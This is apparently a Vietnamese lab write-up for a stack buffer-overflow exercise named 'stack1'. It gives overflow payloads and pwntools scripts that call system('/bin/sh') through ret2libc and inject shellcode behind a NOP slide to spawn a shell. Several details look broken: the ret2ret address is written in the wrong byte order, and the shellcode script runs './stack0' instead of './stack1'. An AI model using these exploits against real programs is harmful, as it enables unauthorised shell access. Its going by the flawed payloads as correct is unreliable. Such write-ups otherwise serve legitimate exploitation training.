

# Stack 1

## Description


Khi chạy chương trình yêu cầu truyền vào 1 argument. Chúng ta cùng xem thử qua hàm main nhé.


bỏ qua phần check arg vào main, chúng ta quan tâm từ main+35. Nhìn qua thì nó tương tự bài stack0, chúng ta có thể ghi đè modified, thay đổi EIP. Và modified yêu cầu một giá trị cụ thể chứ ko chỉ là khác 0 như bài trước, đó là: `0x61626364`. Và một điểm khác hàm strcpy từ arg[1] vào buf thay vì hàm gets.

## Solution

### Buffer overflow

`payload: ./stack1 $(python -c 'print "a"*64+"\x64\x63\x62\x61"')`

### Ret2ret 

cho EIP jump về  `0x080484b2`. phần padding vẫn là 80byte giống stack0.

`payload: ./stack1 $(python -c 'print "a"*80 + "\x08\x04\x84\xb2"')`



## spawn shell

bài này tương tự stack0, ta chỉ cần thay đổi script 1 chút.

### System()

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack1')

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 80*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

#run process with arg payload
p = process(['./stack1', payload])
p.interactive()
```

### inject shellcode

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack1')

padding = b'a'*80
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process(['./stack0', payload])
p.sendline(payload)
p.interactive()
```
